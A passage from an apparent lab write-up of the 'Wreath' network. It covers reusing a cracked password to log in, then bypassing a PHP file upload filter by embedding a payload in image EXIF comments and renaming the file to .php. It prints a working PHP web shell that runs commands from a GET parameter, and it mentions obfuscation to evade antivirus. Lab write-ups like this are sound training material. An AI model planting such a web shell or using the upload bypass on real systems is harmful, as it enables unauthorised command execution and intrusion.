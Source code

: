 ![](/Images/wreath/Screenshot-2021-04-07-175302.png)

There is index.php file when we look into that, can notice it is file upload page. which checking for file extension and file size we can easily bypass it.

Goto file upload location it asking for login details, earlier we crack Thomas hash so high chance of using same password again. try same password with user name **thomas**. login sucess

![](/Images/wreath/Screenshot-2021-04-07-180211-1024x576.png)

first try uploading image, as expected its successful. now we need to find way to embed the payload in image.

We can use **exiftool** embed payload in image comments and upload it with changed name as **.php**.

```
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

This is the payload we gonna embed before that we need to **Obfuscation** payload AV Evasion

